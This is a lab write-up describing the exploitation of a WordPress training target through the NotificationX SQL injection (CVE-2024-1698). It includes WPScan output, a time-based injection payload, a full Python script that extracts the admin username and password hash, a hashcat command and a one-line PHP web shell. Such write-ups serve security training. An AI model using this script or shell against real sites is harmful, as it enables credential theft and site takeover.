

# On-Premise-09: NotificationX

## Introduction

This report details the exploitation of a WordPress-based lab environment, **On-Premise-09: NotificationX**, part of the Infinity Learning labs. The objective was to identify vulnerabilities, gain unauthorized access, and ultimately retrieve the flag.

## Reconnaissance

The initial phase involved examining the target webpage. Using **Wappalyzer**

 I identified that the site is running on **WordPress**. This discovery prompted further enumeration using **WPScan**.

### Initial Plugin Enumeration

I began by enumerating the installed plugins using the following command:

```bash
❯ wpscan --url https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/ --enumerate p

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/ [173.208.132.134]
[+] Started: Wed May 20 09:38:20 2026

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.18.0 (Ubuntu)
 |  - X-UA-Compatible: IE=edge
 |  - Content-Security-Policy: upgrade-insecure-requests
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.6.2 identified (Insecure, released on 2024-09-10).
 | Found By: Rss Generator (Passive Detection)
 |  - https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/index.php/feed/, <generator>https://wordpress.org/?v=6.6.2</generator>
 |  - https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.6.2</generator>

[+] WordPress theme in use: bloghash
 | Location: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/
 | Last Updated: 2026-02-25T00:00:00.000Z
 | Readme: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/readme.txt
 | [!] The version is out of date, the latest version is 1.0.28
 | Style URL: https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/style.css
 | Style Name: BlogHash
 | Style URI: https://peregrine-themes.com/bloghash
 | Description: BlogHash is the perfect pick for bloggers seeking a lightweight, customizable theme that suits them ...
 | Author: Peregrine themes
 | Author URI: https://peregrine-themes.com/
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0.16 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/wp-content/themes/bloghash/style.css, Match: 'Version: 1.0.16'

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Wed May 20 09:38:30 2026
[+] Requests Done: 30
[+] Cached Requests: 5
[+] Data Sent: 12.217 KB
[+] Data Received: 134.009 KB
[+] Memory used: 271.051 MB
[+] Elapsed time: 00:00:10

```

The scan results provided several interesting findings:

- **Server:** nginx/1.18.0 (Ubuntu)
- **XML-RPC:** Enabled at `/xmlrpc.php`
- **WordPress Version:** 6.6.2 (Identified as insecure)
- **Theme:** BlogHash (Version 1.0.16)
- **Upload Directory:** Directory listing enabled at `/wp-content/uploads/`

However, the passive plugin enumeration did not yield significant results. To gain more visibility, I performed an aggressive plugin scan:

```bash
❯ wpscan --url https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/ --enumerate p --plugins-detection aggressive
```


### Vulnerability Identification

The aggressive scan successfully identified a specific plugin and its version. Research revealed that this plugin was subject to a critical vulnerability: **CVE-2024-1698**, an unauthenticated SQL Injection.

> The **NotificationX** plugin for WordPress is vulnerable to SQL Injection via the `type` parameter in all versions up to and including **2.8.2**. This is due to insufficient escaping of user-supplied parameters and a lack of preparation in the existing SQL query.


## Exploitation  

### Testing the API Endpoint

Following exploitation guides, I attempted to access the REST API. I encountered an issue where the standard `/wp-json` endpoint was not available. I later learned that WordPress supports two methods for REST API access:

1. **Pretty Permalinks ON:** `/wp-json/notificationx/v1/analytics`
2. **Pretty Permalinks OFF:** `/?rest_route=/notificationx/v1/analytics`

Since Pretty Permalinks were disabled, I used the second method to confirm the API's existence:

```bash
curl -s "https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/?rest_route=/notificationx/v1/analytics" \
  -d "nx_id=1&type=clicks"
```


### Time-Based SQL Injection

To verify the SQL injection, I executed a time-based payload:

```bash
time curl "https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/?rest_route=/notificationx/v1/analytics" \
  -d 'nx_id=1337&type=clicks`=IF(SUBSTRING(version(),1,1)=5,SLEEP(10),null)-- -'
```

The server responded with a significant delay (approximately 20 seconds), confirming the vulnerability.


### Automated Data Extraction

I utilized a publicly available exploit script but had to modify it due to issues with automatic length detection. I manually set the character range and added a more robust delay checker.

```python
import requests
import string
from sys import exit
import time

delay = 10
url = "https://red.infinity.cyberwarfare.live/oaa06a4ab7464a7388724290d69bd32t/?rest_route=/notificationx/v1/analytics"
admin_username = ""
admin_password_hash = ""
session = requests.Session()

def check_char(payload):
    for _ in range(2):
        resp = session.post(url, data={"nx_id": 1337, "type": payload})
        if resp.elapsed.total_seconds() > delay:
            continue
        return False
    return True

print("Extracting Admin Username...")
for idx_username in range(1, 20):
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        payload = f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        if check_char(payload):
            if ascii_val_username == 0:
                break
            admin_username += chr(ascii_val_username)
            print("Admin username:", admin_username)
            break
    else:
        break

print("Extracting Password Hash...")
for idx_password in range(1, 41):
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        payload = f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        if check_char(payload):
            if ascii_val_password == 0:
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
            admin_password_hash += chr(ascii_val_password)
            print("Admin password hash:", admin_password_hash)
            break
```

Running the script successfully extracted the administrator's username and password hash.


### Password Cracking

The extracted hash was identified as a **WordPress MD5** hash. I used **Hashcat** with mode `400` and the `rockyou.txt` wordlist to crack it.

```bash
hashcat -m 400 hash.txt /usr/share/wordlists/rockyou.txt --force
```


## Post-Exploitation

### Gaining Remote Code Execution (RCE)

With the admin credentials, I logged into the WordPress dashboard. Although direct plugin uploads failed due to connection errors, I was able to gain RCE by editing an existing plugin, **Hester Core**, and inserting a PHP shell:

```php
system($_GET['cmd']);
```


### Retrieving the Flag

I then used the `cmd` parameter to execute system commands. By listing the directory contents and reading the flag file, I successfully completed the challenge.


The flag was successfully retrieved, marking the completion of the lab. :)